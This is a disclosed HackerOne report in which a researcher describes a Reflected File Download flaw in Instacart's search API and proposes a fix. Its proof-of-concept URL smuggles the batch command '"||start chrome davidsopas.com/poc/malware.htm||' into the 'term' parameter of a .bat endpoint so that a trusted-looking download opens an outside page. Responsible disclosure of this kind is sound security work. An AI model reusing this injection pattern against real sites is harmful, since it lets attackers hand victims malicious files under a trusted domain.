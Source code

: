 # Reflected File Download on recipe list search

## Report Details
- **Report ID**: 158505
- **URL**: https://hackerone.com/reports/158505
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-11T16:00:44.010Z
- **Disclosed**: 2016-10-18T01:08:16.349Z

## Reporter
- **Username**: dsopas
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: instacart

## Vulnerability Information
Hi guys,

Right now I'm searching for JSON issues on your API so I started to go deep into the XHR requests.
When I noticed the following request:
https://www.instacart.com/api/v2/searches?cart_id=3471936&term=rfd&page=1&per=100&max_per_row=7&skip_other_warehouses=true&disable_autocorrect=false&source=web&warehouse_id=129&zone_id=12

Which returned the following output:

{"meta":{"code":200,"source":"search_service","cluster":null},"data":{"term":"xss","inventory_area_id":617,"items":[],"total_results":0,"aisles":[],"warehouses":[],"search_strategies":[],"tracking":{},"product_type_filter":false,"has_deals":false,"search_id":141585110},"pagination":{"total":0,"page":1,"per_page":50}}

I noticed that "term" parameter was reflected on the JSON format output so I tried a Reflected File Download.

Proof-of-concept:
https://www.instacart.com/api/v2/searches.bat?cart_id=&term="||start chrome davidsopas.com/poc/malware.htm||&page=1&per=100&max_per_row=7&skip_other_warehouses=true&disable_autocorrect=false&source=web&warehouse_id=129&zone_id=12

Reflecting:
{"meta":{"code":200,"source":"search_service","cluster":null},"data":{"term":"\"||start chrome davidsopas.com/poc/malware.htm||","inventory_area_id":617,"items":[],"total_results":0,"aisles":[],"warehouses":[],"search_strategies":["used_or_operator"],"tracking":{},"product_type_filter":false,"has_deals":false,"search_id":141585846},"pagination":{"total":0,"page":1,"per_page":50}}

So I got my RFD attack now (even with URL permissive), next step was to create a special crafted page to force the download:
http://0xhack.com/instacart_rfd.htm

Note: You need to be authenticated with a Instacart account.

Check the attached screenshots on latest versions of Chrome and Opera.

So in my proof-of-concept I was able to run a new Google Chrome window with a html file simulating a malicious file on the Windows operative system.

A malicious user could:

1 - Launch a malicious campaign with the specially crafted page - similar to my PoC
2 - Victim downloads the file thinking that is from a trusted domain [instacart.com]
3 - Malicious user gains control over victims machine

This kind of attack is very dangerous and could lead to millions of users infected by malicious campaigns. Possibility of gaining operating system access from Instacart users is a high risk of security.

Solution:
Use content-disposition header to force a filename download. Also "term" parameter should be encoded to prevent this kind of reflection on the output.

Hope it helps.

Best,
David Sopas
@dsopas

## Attachments
- instacart_rfd_opera.jpg
- instacart_rfd_chrome.jpg
